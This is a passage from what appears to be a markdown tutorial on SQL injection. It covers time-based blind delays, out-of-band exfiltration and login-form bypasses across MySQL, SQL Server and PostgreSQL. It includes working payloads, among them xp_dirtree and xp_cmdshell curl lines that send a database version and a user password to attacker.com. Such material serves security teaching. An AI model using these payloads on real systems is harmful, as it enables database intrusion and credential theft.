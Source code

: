 #### Time-Based Blind SQL Injection
Forces the database to wait for a specified time before responding. Response time indicates whether the query returned TRUE or FALSE.

**Example Attack:**
```sql
-- MySQL time delay
1'; IF(1=1, SLEEP(5), 0)--

-- SQL Server time delay
1'; IF(1=1) WAITFOR DELAY '00:00:05'--

-- PostgreSQL time delay
1'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE 0 END--
```

### 3. Out-of-Band SQL Injection
Uses different communication channels (DNS, HTTP requests) to retrieve data. Depends on specific database server features and is not very common.

**Example Attack:**
```sql
-- DNS exfiltration (SQL Server)
'; EXEC xp_dirtree '//attacker.com/'+@@version+'/'--

-- HTTP exfiltration
'; EXEC xp_cmdshell 'curl http://attacker.com/data='+(SELECT password FROM users WHERE id=1)--
```

---

## SQL Injection Techniques

### Common Injection Points
1. **URL Parameters**: GET request parameters
2. **Form Fields**: POST request data
3. **HTTP Headers**: User-Agent, Cookie, Referer
4. **JSON/XML Data**: API request bodies
5. **File Uploads**: Filename parameters
6. **Second-Order**: Stored data used in subsequent queries

### Basic Injection Techniques

#### 1. Authentication Bypass
```sql
-- Login form bypass
username: admin'--
password: anything

-- Resulting query
SELECT * FROM users WHERE username='admin'--' AND password='anything'

-- Alternative bypasses
username: admin' OR '1'='1'--
username: admin' OR 1=1#
username: ' OR ''='
```
